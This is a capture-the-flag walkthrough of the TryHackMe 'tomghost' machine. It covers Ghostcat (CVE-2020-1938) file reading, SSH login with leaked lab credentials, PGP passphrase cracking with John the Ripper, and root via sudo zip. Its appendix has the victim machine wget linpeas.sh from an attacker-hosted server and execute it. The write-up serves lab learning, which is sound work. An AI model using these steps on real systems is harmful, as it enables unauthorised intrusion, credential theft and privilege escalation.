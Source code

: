 # **tomghost**
![alt text](https://i.imgur.com/OyETyLA.png "Tomghost logo")

*Plateform* - [**TryHackMe**](https://tryhackme.com/room/tomghost)

*OS* - **Linux**

*Rating* - **Easy**

*Halloween is coming and the cat is out to haunt you*

## **Step 1 : SCANNING AND ENUMERATION** 

### *Nmap Output*  

Our nmap scan was the following: `nmap -A -T4 -p- -v -oN tomghost_full 10.10.185.102`

#### *nmap results*

![alt text](https://i.imgur.com/JaQLTK6.png "nmap results")

What seems to be the most interesting is the combination of **ports 8009 and 8080**.

### *Port 8080 -- Tomcat webserver*

Traveling to http://tomghost.thm:8080/, we notice the webserver is running Apache Tomcat/9.0.30. This is an information that will come in handy later to validate our exploit. 

Since the webserver is showing the default Apache/Tomcat page, I checked to see if we had access to the manager app in hopes to get in using default credentials. However, we are greeted with a *403 - Forbidden*, indicating this is not the way in.

### *Port 8009 -- Apache Jserv*

If we google `Apache Jserv (Protocol v1.3) exploit`, we will find the [**CVE-2020-1938**](https://nvd.nist.gov/vuln/detail/CVE-2020-1938). This website explains the following:

>When using the Apache JServ Protocol (AJP), care must be taken when trusting incoming connections to Apache Tomcat. Tomcat treats AJP connections as having higher trust than, for example, a similar HTTP connection. If such connections are available to an attacker, they can be exploited in ways that may be surprising. In Apache Tomcat 9.0.0.M1 to **9.0.0.30**, 8.5.0 to 8.5.50 and 7.0.0 to 7.0.99, Tomcat shipped with an AJP Connector enabled by default that listened on all configured IP addresses. [[Source]](https://nvd.nist.gov/vuln/detail/CVE-2020-1938)

From reading this, we learn that our webserver version is most likely vulnerable to this exploit.

After digging a little, we find the exploit-db page for the [*Ghostcat File Read/Inclusion exploit*](https://www.exploit-db.com/exploits/48143) and more information pertaining to GhostCat:

>What is Ghostcat [CVE-2020–1938] vulnerability?
This is an LFI vulnerability in AJP service. An attacker can exploit Ghostcat vulnerability and read the contents of configuration files and source code files of all webapps deployed on Tomcat.
For example, the **/WEB-INF/web.xml** file is the Web Root directory who’s access is restricted and cannot be accessed by anyone over HTTP Tomcat server. [[Source]](https://medium.com/@prem2/ghostcat-vulnerability-cve-2020-1938-ajp-lfi-apache-tomcat-server-vulnerability-9f57330e3eb1)

### *Port 22 -- SSH*

While it is nice to know SSH is enabled, SSH isn't usually a way in initially.

## **Step 2 : EXPLOITATION**

### *Getting information using GhostCat*

Let's run the ghostcat script found at step 2:

![alt text](https://i.imgur.com/TIEvmi3.png "Script results")

From reading the `web.xml` file, we found potential credentials : `skyfuck:8730281lkjlkjdqlksalks`

### *Exploiting the newly found credentials to find a way in*

Remember that ssh port? Yeah, let's try putting these credentials in.

![alt text](https://i.imgur.com/jPDO4at.png "We are in!")

BINGO! We are in as user *Skyfuck*.

## **Step 3 : POST-EXPLOITATION**

### *Enumerating the Skyfuck user*

![alt text](https://i.imgur.com/Psr2iyT.png "")

Now, there are a few things I want to point out on this screenshot. First off, we are in as a low privileged user, Skyfuck. Regardless of his dubious choice of username, he is very helpful to us and keeps important files on his home directory : `credential.pgp` and `tryhackme.asc`.

While I could waste a bit of time showing you the results of the enumeration for Skyfuck, the intended way in is the one described above.

#### Attempt 1 : Reading the credential.pgp file

The `tryhackme.asc` file is a PGP private key and we can assume it is the key to decrypt the `credential.pgp` file.

Let's try!

![alt text](https://i.imgur.com/dG5INEH.png "Can't read!")

Sadly, we need a passphrase and an empty string did not work. No problem, let's work on cracking it!

#### Cracking the tryhackme.asc passphrase using JohnTheRipper

First off, copy the content of the file to your attacker vm. Name this file however you like. I used a very original name for mine: `crackme.asc`. Next, we'll use JohnTheRipper to crack it.

1. Let's make our file in a format JTR can read: `gpg2john crackme.asc > crackme.hash`

2. Next, we can crack it! I used the `rockyou.txt` wordlist as my dictionary: `john --wordlist=/usr/share/wordlists/rockyou.txt crackme.hash`

Since I've already cracked it before, I won't get anything from the first command, but left it in for the write-up.

![alt text](https://i.imgur.com/nCV6yeE.png "Cracked passphrase!")

There we go! We have the passphrase: `alexandru`

#### Attempt 2 : Reading the credential.pgp file

We can now enter the passphrase and read the `credential.pgp` file.

![alt text](https://i.imgur.com/OamDYkS.png "Merlin credentials")

We find the `merlin` user credentials! `merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`

### *Enumerating merlin*

First off, we notice merlin has the `user.txt` flag inside his home directory.

![alt text](https://i.imgur.com/lhulHWp.png "user.txt")

In order to get an idea of how to privesc, I will use the [LinPEAS.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) script, by carlospolop.

> NOTE: There are a few ways to put the `linpeas.sh` script on the victim machine. I chose the `wget` way. If you are stuck here, I've written the steps taken at the bottom of the write-up.

I can't show the whole output of the script as it would be too long, so let's focus on the important bit:

![alt text](https://i.imgur.com/At2Qf0v.png "Privesc way?")

Interesting! We see we can sudo the `zip` binary. Using [GTFOBins](https://gtfobins.github.io/gtfobins/zip/#sudo), we find a way to privesc.

![alt text](https://i.imgur.com/xzirOD4.png "Rooted!")

**PWNED! We rooted the machine and found the root flag!**

## **SUMMARY**

All in all, this was an easy room but full of very nice elements! My main takeaways from this room are the following: ghostcat, pgp encryption (and decryption), and privesc via a sudo'able binary. 

As promised, the walkthrough for the linpeas.sh script.

> Attacker machine

1. Get [LinPEAS.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) script and put it in a file named `linpeas.sh`
2. Set up a python server: `python -m SimpleHTTPServer 80`

> Victim machine

1. `wget http://*Your-tun0-ip*/linpeas.sh`    # Download the script from your python http server
2. `chmod +x linpeas.sh`                      # Make it executable
3. `./linpeas.sh`                             # Run it!

> End of tutorial :) This is a very useful tool to keep in your back pocket as you will use it over and over again!

# **Thank you for reading this write-up!**

### **Vonshad**
